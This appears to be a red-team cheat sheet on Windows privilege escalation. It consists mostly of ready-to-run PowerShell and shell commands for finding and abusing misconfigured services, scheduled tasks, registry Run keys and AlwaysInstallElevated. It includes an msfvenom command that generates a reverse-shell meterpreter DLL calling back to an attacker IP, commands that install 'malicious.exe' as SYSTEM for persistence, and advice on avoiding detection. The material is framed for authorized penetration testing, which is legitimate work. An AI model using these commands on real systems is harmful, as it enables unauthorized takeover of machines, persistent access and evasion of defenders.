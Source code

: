# Windows Privilege Escalation

### Overview

Privilege escalation in Windows involves techniques to gain higher-level access, typically from a normal user to SYSTEM or Domain Admin privileges.

### Kernel Exploits

#### 1. System Information

```powershell
# OS Version
systeminfo
Get-WmiObject -Class Win32_OperatingSystem

# Hotfixes
wmic qfe list
Get-HotFix

# Architecture
wmic os get osarchitecture
[Environment]::Is64BitOperatingSystem
```

#### 2. Exploit Search

```powershell
# Manual Search
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"Hotfix(s)"

# Automated Tools
.\windows-exploit-suggester.py --database 2021-03-23-mssb.xls --systeminfo systeminfo.txt
.\Sherlock.ps1 -Command "Find-AllVulns"
```

#### 3. Exploit Execution

```powershell
# Compile Exploit
cl.exe /EHsc exploit.cpp
link.exe exploit.obj

# Run Exploit
.\exploit.exe
```

### Service Exploitation

#### 1. Service Enumeration

```powershell
# List Services
Get-Service
Get-WmiObject -Class Win32_Service

# Service Permissions
Get-Acl -Path "HKLM:\System\CurrentControlSet\Services\*" | Format-List
Get-Service | Get-Member -MemberType Property
```

#### 2. Service Misconfiguration

```powershell
# Unquoted Service Path
Get-WmiObject -Class Win32_Service | Where-Object { $_.PathName -notlike '"*"' -and $_.PathName -like '* *' }

# Weak Service Permissions
Get-Service | ForEach-Object { $service = $_; $acl = Get-Acl "HKLM:\System\CurrentControlSet\Services\$($service.Name)"; if ($acl.Access.FileSystemRights -match 'Write|Modify') { $service.Name } }
```

#### 3. Service Manipulation

```powershell
# Modify Service
sc.exe config <service> binPath= "C:\path\to\malicious.exe"
sc.exe config <service> obj= "LocalSystem"

# Start Service
sc.exe start <service>
Start-Service -Name <service>
```

### DLL Hijacking

#### 1. DLL Search Order

```powershell
# Check DLL Search Order
Get-ChildItem -Path $env:Path -Recurse -Filter *.dll
Get-ChildItem -Path "C:\Windows\System32" -Filter *.dll

# Find Missing DLLs
Get-EventLog -LogName System -Source "Service Control Manager" | Where-Object { $_.Message -like "*DLL*" }
```

#### 2. DLL Injection

```powershell
# Create Malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f dll -o malicious.dll

# Inject DLL
rundll32.exe malicious.dll,EntryPoint
```

### Scheduled Tasks

#### 1. Task Enumeration

```powershell
# List Tasks
schtasks /query /fo LIST /v
Get-ScheduledTask
Get-WmiObject -Class Win32_ScheduledJob

# Task Permissions
Get-ScheduledTask | ForEach-Object { $task = $_; $acl = Get-Acl "C:\Windows\System32\Tasks\$($task.TaskName)"; if ($acl.Access.FileSystemRights -match 'Write|Modify') { $task.TaskName } }
```

#### 2. Task Creation

```powershell
# Create Task
schtasks /create /tn "Update" /tr "C:\path\to\malicious.exe" /sc onlogon /ru SYSTEM
New-ScheduledTask -Action (New-ScheduledTaskAction -Execute "C:\path\to\malicious.exe") -Trigger (New-ScheduledTaskTrigger -AtLogon) -Principal (New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount) | Register-ScheduledTask -TaskName "Update"
```

### Registry Exploitation

#### 1. Registry Enumeration

```powershell
# AutoRun Keys
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"

# AlwaysInstallElevated
Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
Get-ItemProperty -Path "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
```

#### 2. Registry Modification

```powershell
# Add AutoRun
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\path\to\malicious.exe"

# Enable AlwaysInstallElevated
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated -Value 1
Set-ItemProperty -Path "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated -Value 1
```

### Tools

#### 1. Primary Tools

* PowerUp
* WinPEAS
* Sherlock
* Windows-Exploit-Suggester
* Seatbelt

#### 2. Additional Tools

* PowerSploit
* Empire
* Covenant
* Cobalt Strike
* Sliver

### Best Practices

#### 1. Escalation Strategy

* Start with low-risk techniques
* Use multiple methods
* Document findings
* Test safely
* Follow engagement scope

#### 2. OPSEC Considerations

* Use stealth techniques
* Avoid detection
* Monitor for alerts
* Use legitimate tools
* Follow engagement scope

### Resources

* [HackTricks Windows](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [Red Team Notes](https://www.ired.team/offensive-security/privilege-escalation)
* [MITRE ATT\&CK](https://attack.mitre.org/tactics/TA0004/)

***

_Last Updated: 2025-03-23_
